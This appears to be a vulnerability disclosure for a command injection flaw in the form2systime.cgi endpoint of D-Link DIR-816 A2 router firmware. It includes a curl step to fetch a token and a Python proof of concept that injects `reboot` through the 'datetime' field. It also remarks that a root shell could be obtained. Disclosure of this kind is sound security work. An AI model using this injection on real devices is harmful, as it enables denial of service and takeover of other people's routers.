 
# D-link DIR-816 A2_v1.10CNB04.img Command injection vulnerability

## Firmware information

- Manufacturer's address：https://www.dlink.com/

- Firmware download address ： http://tsd.dlink.com.tw/GPL.asp

## Affected version

![](https://github.com/z1r00/IOT_Vul/blob/main/dlink/dir816/img/vuln2.png)

The picture above shows the latest firmware for this version

## Vulnerability details

![](https://github.com/z1r00/IOT_Vul/blob/main/dlink/Dir816/form2systime_cgi/img/vuln1.png)

In /goform/form2systime.cgi, the Command injection vulnerability only needs to be met by datetime -:

## Poc

First you need to get the tokenid

```
curl http://192.168.0.1/dir_login.asp | grep tokenid
```

Next, run the following poc, you can see that the router is restarted

```python
import requests

li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

tokenid = '1804289383'

url = 'http://192.168.0.1/goform/form2systime.cgi'

data = {
    'tokenid' : tokenid,
    'datetime' : '`reboot`-:'
}
response = requests.post(url, data=data)
response.encoding="utf-8"
info = response.text
li(url)
print(info)
```

Finally, exp can be written to achieve the effect of obtaining a root shell
